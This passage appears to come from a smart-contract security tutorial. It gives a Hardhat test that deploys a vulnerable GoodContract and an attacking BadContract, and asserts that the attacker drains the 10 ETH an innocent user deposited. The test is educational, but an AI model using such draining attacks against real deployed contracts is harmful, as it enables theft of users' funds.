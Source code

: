 Let's start off by creating a file named `attack.js` under the `test` folder, and add the following code there:

```js
const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { parseEther } = require("ethers/lib/utils");
const { ethers } = require("hardhat");

describe("Attack", function () {
  it("Should empty the balance of the good contract", async function () {
    // Deploy the good contract
    const goodContractFactory = await ethers.getContractFactory("GoodContract");
    const goodContract = await goodContractFactory.deploy();
    await goodContract.deployed();

    //Deploy the bad contract
    const badContractFactory = await ethers.getContractFactory("BadContract");
    const badContract = await badContractFactory.deploy(goodContract.address);
    await badContract.deployed();

    // Get two addresses, treat one as innocent user and one as attacker
    const [_, innocentAddress, attackerAddress] = await ethers.getSigners();

    // Innocent User deposits 10 ETH into GoodContract
    let tx = await goodContract.connect(innocentAddress).addBalance({
      value: parseEther("10"),
    });
    await tx.wait();

    // Check that at this point the GoodContract's balance is 10 ETH
    let balanceETH = await ethers.provider.getBalance(goodContract.address);
    expect(balanceETH).to.equal(parseEther("10"));

    // Attacker calls the `attack` function on BadContract
    // and sends 1 ETH
    tx = await badContract.connect(attackerAddress).attack({
      value: parseEther("1"),
    });
    await tx.wait();

    // Balance of the GoodContract's address is now zero
    balanceETH = await ethers.provider.getBalance(goodContract.address);
    expect(balanceETH).to.equal(BigNumber.from("0"));

    // Balance of BadContract is now 11 ETH (10 ETH stolen + 1 ETH from attacker)
    balanceETH = await ethers.provider.getBalance(badContract.address);
    expect(balanceETH).to.equal(parseEther("11"));
  });
});
```
